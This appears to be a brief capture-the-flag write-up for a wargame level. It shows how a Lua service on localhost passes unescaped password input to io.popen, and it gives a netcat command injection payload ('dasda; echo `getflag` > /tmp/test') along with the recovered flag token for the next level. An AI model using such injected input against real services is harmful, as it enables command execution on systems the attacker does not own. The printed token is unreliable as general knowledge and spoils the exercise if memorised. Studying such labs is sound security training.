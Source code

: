 ## LEVEL11  
  
## NC
`nc 127.0.0.1 5151`  
`password: ` : `dasda; echo `getflag` > /tmp/test`   
`cat /tmp/test`  

## io.popen in lua
`io.popen("echo "..pass.." | sha1sum", "r")`  
Pass is a variable that contains user input without parsing or escaping.   
io.popen is a lua function that opens a process and then executes shell commands in the system.  
  
## GETFLAG TOKEN   
token_passwd_level12: `fa6v5ateaw21peobuub8ipe6s`  